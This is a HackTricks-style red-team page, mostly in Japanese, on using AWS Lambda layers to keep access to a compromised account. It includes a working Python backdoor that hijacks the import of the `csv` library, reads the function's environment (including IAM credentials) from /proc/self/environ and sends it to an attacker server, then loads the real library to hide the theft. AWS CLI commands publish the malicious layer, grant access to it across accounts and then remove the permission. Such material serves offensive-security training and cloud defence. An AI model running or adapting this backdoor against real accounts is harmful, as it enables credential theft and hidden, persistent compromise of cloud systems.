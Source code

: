 # AWS - Lambda Layers Persistence

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Lambda Layers

Lambdaレイヤーは、**追加のコード**やその他のコンテンツを含むことができる.zipファイルアーカイブです。レイヤーにはライブラリ、[カスタムランタイム](https://docs.aws.amazon.com/lambda/latest/dg/runtimes-custom.html)、データ、または設定ファイルを含めることができます。

**関数ごとに最大五つのレイヤーを含めることが可能です**。関数にレイヤーを含めると、**内容は実行環境の`/opt`**ディレクトリに抽出されます。

**デフォルトでは、作成した**レイヤーはあなたのAWSアカウントに**プライベート**です。レイヤーを他のアカウントと**共有**するか、レイヤーを**公開**することを選択できます。あなたの関数が別のアカウントが公開したレイヤーを使用している場合、レイヤーが削除された後やレイヤーへのアクセス権が取り消された後でも、関数は**レイヤーのバージョンを使用し続けることができます**。ただし、削除されたレイヤーバージョンを使用して新しい関数を作成したり、関数を更新したりすることはできません。

コンテナイメージとしてデプロイされた関数はレイヤーを使用しません。代わりに、イメージをビルドする際に、好みのランタイム、ライブラリ、およびその他の依存関係をコンテナイメージにパッケージします。

### Python load path

Pythonがlambdaで使用するロードパスは次のとおりです:
```
['/var/task', '/opt/python/lib/python3.9/site-packages', '/opt/python', '/var/runtime', '/var/lang/lib/python39.zip', '/var/lang/lib/python3.9', '/var/lang/lib/python3.9/lib-dynload', '/var/lang/lib/python3.9/site-packages', '/opt/python/lib/python3.9/site-packages']
```
チェックしてみてください、**第二**および第三の**位置**は、**lambda layers**がファイルを解凍するディレクトリで占められています：**`/opt/python/lib/python3.9/site-packages`**および**`/opt/python`**

{% hint style="danger" %}
もし攻撃者が使用されているlambda **layer**に**バックドア**を仕掛けたり、**一般的なライブラリが読み込まれたときに任意のコードを実行する**ものを**追加**した場合、彼は各lambda呼び出しで悪意のあるコードを実行できるようになります。
{% endhint %}

したがって、要件は次のとおりです：

* **被害者のコード**によって**読み込まれるライブラリ**を**確認**する
* **カスタムコードを実行し、元の**ライブラリを**読み込む**ための**lambda layersを使用したプロキシライブラリ**を作成する。

### プリロードされたライブラリ

{% hint style="warning" %}
この技術を悪用する際に、私は困難に直面しました：いくつかのライブラリは、あなたのコードが実行されるときにpythonランタイムに**すでに読み込まれています**。私は`os`や`sys`のようなものを見つけることを期待していましたが、**`json`ライブラリさえも読み込まれていました**。\
この永続性技術を悪用するためには、コードが実行されるときに**読み込まれていない新しいライブラリを読み込む**必要があります。
{% endhint %}

このようなpythonコードを使用すると、lambda内のpythonランタイムに**プリロードされたライブラリのリスト**を取得することができます：
```python
import sys

def lambda_handler(event, context):
return {
'statusCode': 200,
'body': str(sys.modules.keys())
}
```
そして、これは**リスト**です（`os`や`json`のようなライブラリがすでに存在することを確認してください）
```
'sys', 'builtins', '_frozen_importlib', '_imp', '_thread', '_warnings', '_weakref', '_io', 'marshal', 'posix', '_frozen_importlib_external', 'time', 'zipimport', '_codecs', 'codecs', 'encodings.aliases', 'encodings', 'encodings.utf_8', '_signal', 'encodings.latin_1', '_abc', 'abc', 'io', '__main__', '_stat', 'stat', '_collections_abc', 'genericpath', 'posixpath', 'os.path', 'os', '_sitebuiltins', 'pwd', '_locale', '_bootlocale', 'site', 'types', 'enum', '_sre', 'sre_constants', 'sre_parse', 'sre_compile', '_heapq', 'heapq', 'itertools', 'keyword', '_operator', 'operator', 'reprlib', '_collections', 'collections', '_functools', 'functools', 'copyreg', 're', '_json', 'json.scanner', 'json.decoder', 'json.encoder', 'json', 'token', 'tokenize', 'linecache', 'traceback', 'warnings', '_weakrefset', 'weakref', 'collections.abc', '_string', 'string', 'threading', 'atexit', 'logging', 'awslambdaric', 'importlib._bootstrap', 'importlib._bootstrap_external', 'importlib', 'awslambdaric.lambda_context', 'http', 'email', 'email.errors', 'binascii', 'email.quoprimime', '_struct', 'struct', 'base64', 'email.base64mime', 'quopri', 'email.encoders', 'email.charset', 'email.header', 'math', '_bisect', 'bisect', '_random', '_sha512', 'random', '_socket', 'select', 'selectors', 'errno', 'array', 'socket', '_datetime', 'datetime', 'urllib', 'urllib.parse', 'locale', 'calendar', 'email._parseaddr', 'email.utils', 'email._policybase', 'email.feedparser', 'email.parser', 'uu', 'email._encoded_words', 'email.iterators', 'email.message', '_ssl', 'ssl', 'http.client', 'runtime_client', 'numbers', '_decimal', 'decimal', '__future__', 'simplejson.errors', 'simplejson.raw_json', 'simplejson.compat', 'simplejson._speedups', 'simplejson.scanner', 'simplejson.decoder', 'simplejson.encoder', 'simplejson', 'awslambdaric.lambda_runtime_exception', 'awslambdaric.lambda_runtime_marshaller', 'awslambdaric.lambda_runtime_client', 'awslambdaric.bootstrap', 'awslambdaric.__main__', 'lambda_function'
```
And this is the list of **libraries** that **lambda includes installed by default**: [https://gist.github.com/gene1wood/4a052f39490fae00e0c3](https://gist.github.com/gene1wood/4a052f39490fae00e0c3)

### Lambda Layer Backdooring

In this example lets suppose that the targeted code is importing **`csv`**. We are going to be **backdooring the import of the `csv` library**.

For doing that, we are going to **create the directory csv** with the file **`__init__.py`** on it in a path that is loaded by lambda: **`/opt/python/lib/python3.9/site-packages`**\
Then, when the lambda is executed and try to load **csv**, our **`__init__.py` file will be loaded and executed**.\
This file must:

* Execute our payload
* Load the original csv library

We can do both with:
```python
import sys
from urllib import request

with open("/proc/self/environ", "rb") as file:
url= "https://attacker13123344.com/" #Change this to your server
req = request.Request(url, data=file.read(), method="POST")
response = request.urlopen(req)

# Remove backdoor directory from path to load original library
del_path_dir = "/".join(__file__.split("/")[:-2])
sys.path.remove(del_path_dir)

# Remove backdoored loaded library from sys.modules
del sys.modules[__file__.split("/")[-2]]

# Load original library
import csv as _csv

sys.modules["csv"] = _csv
```
次に、このコードをパス **`python/lib/python3.9/site-packages/__init__.py`** に含むzipを作成し、lambdaレイヤーとして追加します。

このコードは [**https://github.com/carlospolop/LambdaLayerBackdoor**](https://github.com/carlospolop/LambdaLayerBackdoor) で見つけることができます。

統合されたペイロードは、**最初に呼び出されたときまたはlambdaコンテナのリセット後にIAMクレデンシャルをサーバーに送信します**（コードの変更またはコールドlambda）、しかし**他の技術**も以下のように統合することができます：

{% content-ref url="../../aws-post-exploitation/aws-lambda-post-exploitation/aws-warm-lambda-persistence.md" %}
[aws-warm-lambda-persistence.md](../../aws-post-exploitation/aws-lambda-post-exploitation/aws-warm-lambda-persistence.md)
{% endcontent-ref %}

### 外部レイヤー

**外部アカウントからのlambdaレイヤーを使用することが可能である**ことに注意してください。さらに、lambdaは権限がなくても外部アカウントのレイヤーを使用できます。\
また、**lambdaが持つことができるレイヤーの最大数は5です**。

したがって、この技術の汎用性を向上させるために攻撃者は次のことができます：

* ユーザーの既存のレイヤーにバックドアを仕掛ける（外部のものは何もない）
* **自分のアカウントに** **レイヤー**を**作成**し、**被害者アカウントにレイヤーを使用するアクセスを与え**、**被害者のLambdaにレイヤーを** **設定**し、**権限を削除**します。
* **Lambda**は**レイヤーを使用することができ**、**被害者は** **レイヤーのコードをダウンロードする簡単な方法を持たない**（lambda内でrevシェルを取得することを除いて）
* 被害者は**`aws lambda list-layers`**を使用して**外部レイヤーを確認できません**。

{% code overflow="wrap" %}
```bash
# Upload backdoor layer
aws lambda publish-layer-version --layer-name "ExternalBackdoor" --zip-file file://backdoor.zip --compatible-architectures "x86_64" "arm64" --compatible-runtimes "python3.9" "python3.8" "python3.7" "python3.6"

# Give everyone access to the lambda layer
## Put the account number in --principal to give access only to an account
aws lambda add-layer-version-permission --layer-name ExternalBackdoor --statement-id xaccount --version-number 1 --principal '*' --action lambda:GetLayerVersion

## Add layer to victims Lambda

# Remove permissions
aws lambda remove-layer-version-permission --layer-name ExternalBackdoor --statement-id xaccount --version-number 1
```
{% endcode %}

{% hint style="success" %}
AWSハッキングを学び、実践する：<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
GCPハッキングを学び、実践する：<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksをサポートする</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)を確認してください！
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**Telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**をフォローしてください。**
* **ハッキングのトリックを共有するには、[**HackTricks**](https://github.com/carlospolop/hacktricks)と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを送信してください。**

</details>
{% endhint %}
